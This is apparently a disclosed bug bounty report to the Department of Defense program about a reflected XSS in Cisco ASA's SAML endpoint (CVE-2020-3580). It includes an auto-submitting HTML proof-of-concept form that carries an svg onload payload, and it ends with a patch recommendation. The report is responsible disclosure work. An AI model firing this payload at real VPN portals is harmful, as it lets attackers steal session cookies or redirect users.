 # XSS DUE TO CVE-2020-3580

## Report Details
- **Report ID**: 1606068
- **URL**: https://hackerone.com/reports/1606068
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-06-18T19:23:56.298Z
- **Disclosed**: 2022-09-06T18:55:29.025Z

## Reporter
- **Username**: cruxn3t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello Team,
During my research, I found multiple hosts to be vulnerable to Cisco ASA XSS CVE-2020-3580, This vulnerability targets the saml service within the VPN. It is triggered via a POST request to domain/+CSCOE+/saml/sp/acs?tgname=a

## References
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe

## Impact

With this vulnerability, an attacker can for example steal users cookies or redirect users on malicious website.

## System Host(s)
█████

## Affected Product(s) and Version(s)
Cisco ASA

## CVE Numbers
CVE-2020-3580

## Steps to Reproduce
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

## Suggested Mitigation/Remediation Actions
Patch Cisco ASA : https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe



## Attachments
No attachments
